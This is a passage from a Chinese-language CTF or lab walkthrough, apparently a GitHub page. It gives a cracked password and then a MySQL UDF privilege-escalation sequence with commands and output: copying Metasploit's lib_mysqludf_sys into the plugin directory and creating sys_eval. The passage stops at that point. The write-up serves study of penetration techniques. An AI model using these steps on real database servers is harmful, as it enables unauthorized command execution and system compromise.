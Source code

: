     - 破译密码得：`killerbeesareflying` ，ssh尝试登陆失败，密码是错的
    - 因为我们有数据库root权限，所以可以尝试UDF提权
        
        查看`secure_priv`权限 ，符合要求
        
        ```sql
        mysql> SHOW VARIABLES LIKE "secure_file_priv";
        SHOW VARIABLES LIKE "secure_file_priv";
        +------------------+-------+
        | Variable_name    | Value |
        +------------------+-------+
        | secure_file_priv |       |
        +------------------+-------+
        ```
        
        查看plugin路径，存放在 `/usr/lib/mysql/plugin`
        
        ```sql
        mysql> show variables like '%plugin%';                
        show variables like '%plugin%';
        +---------------+-----------------------+
        | Variable_name | Value                 |
        +---------------+-----------------------+
        | plugin_dir    | /usr/lib/mysql/plugin |
        +---------------+-----------------------+
        ```
        
        动态链接库存放在kali 的`/usr/share/metasploit-framework/data/exploits/mysql` 下，将动态链接库文件传到靶机的`/tmp`文件夹
        
        ```sql
        cd /usr/share/metasploit-framework/data/exploits/mysql
        // 选择版本传到靶机
        lib_mysqludf_sys_32.dll  
        lib_mysqludf_sys_64.dll
        lib_mysqludf_sys_32.so   
        lib_mysqludf_sys_64.so
        ```
        
        将动态链接库传入到plugin路径
        
        ```sql
        mysql> use mysql;
        
        mysql> create table foo(line blob);
        Query OK, 0 rows affected (0.00 sec)
        
        mysql> insert into foo values (load_file('/tmp/lib_mysqludf_sys_64.so'))
        Query OK, 1 row affected (0.00 sec)
        
        mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/udf.so';
        Query OK, 1 row affected (0.00 sec)
        
        mysql> create function sys_eval returns string soname 'udf.so';
        Query OK, 0 rows affected (0.00 sec)
        